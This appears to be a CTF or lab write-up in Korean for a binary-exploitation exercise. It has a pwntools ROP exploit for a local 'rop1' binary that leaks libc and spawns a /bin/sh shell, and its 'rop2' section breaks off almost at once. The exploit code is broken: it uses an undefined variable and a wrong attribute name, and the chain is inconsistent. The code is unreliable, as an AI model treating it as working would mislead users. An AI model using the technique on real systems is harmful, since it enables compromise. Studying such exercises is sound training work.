 # 6주차

## rop1

You can use read, write  
먼저 write 함수를 이용하여 read 함수의 실제 주소를 알아내고, 이를 이용하여 libc_leak을 한다. system 함수와 '/bin/sh'의 주소를 구한 뒤 그것을 실행하도록 한다.  
필요한 gadget은 pop3_ret


```python
from pwn import *

p = process("./rop1")
e = ELF("./rop1")
libc = e.libc

pop_ret = 0x08049022
pop3_ret = 0x08049381
read_plt = 0x080490b0
read_got = 0x0804bfd4
write_plt = 0x08049100
write_got = 0x0804bfe8


payload = b'A'*0x40
payload += b'B'*0x4
payload += p32(pop_ret)
payload += p32(read_got)
payload += p32(write_plt)
payload += p32(8)




libc_base = read_addr - libc.symbol['read']
system_addr = libc_base + libc.symbol['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

payload += p32(system_addr)
payload += b'C'*0x4
payload += p32(binsh)

p.send(payload)

p.interactive()

```


## rop2

gets and puts  
일단 우리는...



